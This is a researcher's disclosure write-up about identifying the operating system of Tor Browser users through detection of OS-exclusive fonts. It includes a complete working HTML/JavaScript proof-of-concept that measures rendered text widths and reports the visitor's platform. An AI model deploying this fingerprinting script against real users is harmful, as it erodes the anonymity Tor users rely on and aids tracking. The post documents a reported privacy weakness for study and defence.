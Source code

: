```yaml
---
layout: content
title: 'Detecting Tor Browser platform based on exclusive fonts rendering'
description: 'Through the rendering of some specific Fonts, I discovered that it is possible to identify operating system from a user behind Tor and after reporting this to the Tor Project I was told that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.'
og_image: https://heitorgouvea.me/images/publications/tor-detect-platform/tor-browser-macos.png
---
```


### Summary

Through the rendering of some specific Fonts, I discovered that it is possible to identify operating system from a user behind Tor and after reporting this to the Tor Project I was told that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.

---

### Description

The Tor Browser[¹](#references) is based on Firefox, with its peculiarities and promises of privacy/digital anonymity[²](#references), in addition to all engineering to hide the IP from a user, Tor also promises to combat identifications that are linked to the operating system, such for example: techniques that use JavaScript to capture the screen size and identify a unique feature of it, among others.

However, it's possible to find out the operating system of a person using Tor via a technique that makes use of Fonts "exclusive" to some operating systems.

For example, the font “Lucida Grande” is one of them, which by default is only installed on MacOS, so when an HTML page tries to render it and is successful it can be concluded that that user is using “Tor on a MacOS”, already an example to identify users using “Tor on Windows” would be the font “MS Gothic” among many other examples.

After reporting this problem, I was told that the Tor Project is already aware[³](#references) of all of this, and some implementations are already present in the current version of Tor to reduce the impact of this vulnerability and there are also plans for the future so that it ceases to exist for complete. More information about this can be found at: [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/)[⁴](#references)

---

### Proof of Concept

Exploit:

```html
<html>
    <head>
        <title>PoC Fingerprint</title>
        <meta charset="utf-8"/>
        <style type="text/css">
            body {
                font-family: "Lucida Grande";
            }
        </style>
    </head>
    <body>
        <h1>Hello World</h1>
    </body>
    <script>
        (function (document) {
            var width;
            var body = document.body;
            var container = document.createElement("span");

            container.innerHTML = Array(100).join("wi");
            container.style.cssText = [
                "position: absolute",
                "width: auto",
                "font-size: 128px",
                "left: -99999px"
            ].join(" !important;");

            var getWidth = function (fontFamily) {
                container.style.fontFamily = fontFamily;

                body.appendChild(container);
                width = container.clientWidth;
                body.removeChild(container);

                return width;
            };

            var monoWidth  = getWidth("monospace");
            var serifWidth = getWidth("serif");
            var sansWidth  = getWidth("sans-serif");

            window.isFontAvailable = function (font) {
                return monoWidth !== getWidth(font + ",monospace") ||
                sansWidth !== getWidth(font + ",sans-serif") ||
                serifWidth !== getWidth(font + ",serif");
            };
        })(document);

        if (isFontAvailable("Lucida Grande")) {
            alert("You are using the MacOS plataform");
        }

        else if (isFontAvailable("MS Gothic")) {
            alert("You are using the Windows plataform");
        }

        else {
            alert("You are not using the MacOs/Windows Platform");
        }
    </script>
</html>
```

If you prefer, you can see a live demo [clicking here](https://heitorgouvea.me/public/payloads/tor-browser-fonts-exploit.html)

User identification using Tor on MacOS:

![](/images/publications/tor-detect-platform/tor-browser-macos.png)

User identification using Tor on Windows: 

![](/images/publications/tor-detect-platform/tor-browser-windows.jpeg)

There is a margin of error in this technique, as a user can install fonts that are not the default for an operating system, but an attacker can make use of even more esoteric fonts to minimaze that margin of error.

---

### Impact

With this technique it is possible to identify the operating system of a user who is using Tor. On a website with low traffic volume, this distinction is enough to exclusively track users, already for a website with high traffic, allows you to track users in a unique way in a short period of time.

---

### Conclusion

This vulnerability can be combined with others to develop a profile unique enough to track users on Tor. However, it is reassuring to know that the team behind Tor Browser is extremely agile and is very close to the research community, this certainly helps a lot to minimize the risks around this vulnerability.

---

### References

1. [https://www.torproject.org/](https://www.torproject.org/)
2. [https://en.wikipedia.org/wiki/Tor_(anonymity_network)](https://en.wikipedia.org/wiki/Tor_(anonymity_network))
3. [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/)
4. [https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097](https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097)
5. [https://www.samclarke.com/javascript-is-font-available/](https://www.samclarke.com/javascript-is-font-available/)